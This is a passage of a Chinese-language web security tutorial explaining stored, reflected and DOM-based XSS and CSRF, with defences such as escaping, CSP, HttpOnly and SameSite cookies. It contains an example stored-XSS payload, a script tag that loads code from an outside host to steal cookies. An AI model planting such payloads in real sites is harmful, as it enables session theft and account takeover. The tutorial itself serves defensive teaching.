 存储型 XSS 攻击的步骤如下：

- 首先黑客利用站点漏洞将一段恶意 JavaScript 代码提交到网站的数据库中；比如说在表单输入框输入这样一段脚本：

```js
<script src="http://tod.cn/ReFgeasE"></script>
```

- 用户向网站请求包含了恶意 JavaScript 脚本的页面；
- 当用户浏览该页面的时候，恶意脚本可以通过 `document.cookie`获取到页面`Cookie`信息，然后通过`XMLHttpRequest`将这些信息发送给恶意服务器，恶意服务器拿到用户的`Cookie` 信息之后，就可以在其他电脑上模拟用户的登录，然后进行操作。

### 反射型 XSS 攻击

在一个反射型 XSS 攻击过程中，恶意 JavaScript 脚本属于用户发送给网站请求中的一部分，随后网站又把恶意 JavaScript 脚本返回给用户。当恶意 JavaScript 脚本在用户页面中被执行时，黑客就可以利用该脚本做一些恶意操作。

:::warning 注意点
与存储型 XSS 攻击的不同点：Web 服务器不会存储反射型 XSS 攻击的恶意脚本。
:::

### 基于 DOM 的 XSS 攻击

基于 DOM 的 XSS 攻击是不牵涉到页面 Web 服务器的。通常是由于是前端代码不够严谨，把不可信的内容插入到了页面。在使用 .innerHTML、.outerHTML、.appendChild、document.write()等 API 时要特别小心，不要把不可信的数据作为 HTML 插到页面上，尽量使用 .innerText、.textContent、.setAttribute() 等代替。

### 如何防止

对于 XSS 攻击，它们的一个共同点就是向浏览器注入恶意脚本，然后再通过恶意脚本将用户信息发送给恶意服务器。因此，要防止 XSS 攻击，就可以通过阻止恶意 `JavaScript` 脚本的注入和恶意消息的发送来实现。以下有几个防止 XSS 攻击的方案：

- 服务器对输入脚本进行过滤或转码。比如：script 转成 &lt;script&gt; 后脚本就无法执行了。
- 充分利用 CSP。实施严格的 CSP 规则，可以有效的防止 XSS 攻击。
- 使用 HttpOnly 属性。很多的 XSS 攻击都是用来获取 Cookie 的，因此可以使用 HttpOnly 属性来保护 Cookie。由于 JavaScript 无法读取设置了 HttpOnly 的 Cookie 数据，所以即使页面被注入了恶意 JavaScript 脚本，也是无法获取到设置了 HttpOnly 的数据。

## 跨站请求伪造（CSRF）

跨站请求伪造（Cross-site request forgery）简称是 CSRF：是指黑客引诱用户打开黑客的网站，在黑客的网站中，利用用户的登录状态发起的跨站请求。

CSRF 攻击的步骤如下：

- 用户登录 A 网站，并且保留了登录信息（Cookie）；
- 被黑客诱导访问了 B 网站，从 A 跳转到 B；
- B 网站对 A 网站发出请求（这个就是下面将介绍的几种伪造请求的方式），浏览器请求头中会默认携带 A 网站的 Cookie；
- A 网站服务器收到请求后，经过验证发现用户是登录了的，所以会处理请求。

### 如何防止 CSRF 攻击

- 给 Cookie 设置合适的 SameSite。当从 A 网站登录后，会从响应头中返回服务器设置的 Cookie 信息，而如果 Cookie 携带了 SameSite=strict 则表示完全禁用第三方站点请求头携带 Cookie，比如当从 B 网站请求 A 网站接口的时候，浏览器的请求头将不会携带该 Cookie。SameSite 还有另外 2 个属性值：

  - Lax 是默认值，允许第三方站点的 GET 请求携带；
  - None 任何情况下都会携带；
    以下是一个响应头的 Set-Cookie 示例：
